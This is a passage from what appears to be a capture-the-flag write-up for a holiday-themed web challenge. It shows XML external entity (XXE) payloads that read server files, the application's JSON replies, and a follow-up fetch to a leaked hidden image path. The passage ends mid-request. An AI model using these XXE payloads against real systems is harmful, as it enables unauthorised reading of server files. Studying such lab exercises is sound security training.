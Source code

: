  ```
 {
  "appResp": "Hmmm, you still seem awfully interested in these rings. I can't blame you, they are pretty nice.^Oooooh, I can just tell she'd like to talk about them some more.",
  "droppedOn": "none",
  "visit": "none"
}
```

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ELEMENT foo ANY > 
<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/bluering.txt"> ]>
<root>
 <imgDrop>&xxe;</imgDrop>
 <who>princess</who>
 <reqType>xml</reqType>
</root>
```

```
{
  "appResp": "I love these fancy blue rings! You can see we have two of them. Not magical or anything, just really pretty.^She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though.",
  "droppedOn": "none",
  "visit": "none"
}

```

Issue a request for silver ring too (just an intuituve guess).

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ELEMENT foo ANY > 
<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/silverring.txt"> ]>
<root>
 <imgDrop>&xxe;</imgDrop>
 <who>princess</who>
 <reqType>xml</reqType>
</root>
```

```
{
  "appResp": "I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!.^Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px"
}
```
The visit parameter in the response points to a URL. Let's visit that.
```
await fetch("https://glamtarielsfountain.com/static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0",
        "Accept": "image/avif,image/webp,*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Sec-Fetch-Dest": "image",
        "Sec-Fetch-Mode": "no-cors",
        "Sec-Fetch-Site": "same-origin",
        "Pragma": "no-cache",
        "Cache-Control": "no-cache"
```